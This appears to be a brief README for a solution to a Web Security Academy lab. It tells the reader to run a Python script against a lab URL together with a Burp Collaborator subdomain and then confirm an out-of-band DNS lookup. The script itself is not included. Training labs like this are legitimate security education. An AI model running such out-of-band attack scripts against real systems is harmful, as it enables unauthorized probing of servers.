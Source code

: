 **Step 1** : Open `Burp Collaborator Client` and copy the subdomain.

**Step 2** : Run `script.py`. Eg:
```bash
python3 comoast.py https://ac401feb1e4e7675c0909bba005f00c7.web-security-academy.net/ 0gh58enmj0vxz279gzeagsoad1jr7g.burpcollaborator.net
```
Output:
```
Poll now!!
```

**Step 3** : Go to Burp Collaborator, and press 'Poll now' to confirm that a DNS lookup occurred.
